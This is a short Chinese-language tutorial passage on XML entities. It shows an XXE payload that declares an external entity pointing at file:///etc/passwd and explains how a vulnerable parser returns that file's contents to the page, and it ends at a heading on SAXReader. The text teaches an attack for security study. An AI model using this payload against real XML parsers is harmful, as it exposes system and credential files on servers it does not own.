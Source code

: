 一个实体如下

```
<!DOCTYPE  文件名 [
<!ENTITY  实体名 "实体内容">
]>
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE aaa [
<!ENTITY name SYSTEM "file:///etc/passwd" > 
]>
<name>&name;</name>
```

创建一个DTD实体name，在XML中以 `&实体名;` 引用，当解析xml的时候，遍历解析道`<name>`节点，解析DTD中的file协议，最后将得到的内容，返回到页面上

![image-20231003161807124](images/2.png)

## SAXReader
